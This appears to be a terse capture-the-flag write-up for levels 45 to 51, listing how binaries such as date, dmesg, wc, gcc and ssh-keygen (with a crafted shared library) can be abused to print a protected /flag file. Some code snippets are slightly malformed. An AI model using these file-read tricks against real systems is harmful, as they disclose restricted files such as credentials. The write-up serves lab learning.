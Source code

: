 ### level 45

* date -f /flag - prints flag in error message

### level 46

* dmesg -F /flag

### level 47

* wc --files0-from /flag

### level 48

```c.c
#include </flag>

int main {
	puts("Hello");
}
```

* gcc -L / test.c

### level 51

```c.c
include <stdio.h>

int C_GetFunctionList()
{
        FILE *fptr;
        fptr = fopen("/flag", "r");
        char myString[100];
        fgets(myString, 100, fptr);
        printf("%s", myString);
        fclose(fptr);
}

int main()
{
        puts("Hello");
}
```

* gcc c.c -o c -shared -no-pie
* ssh-keygen -D ./c executes the remote c code and prints the flag
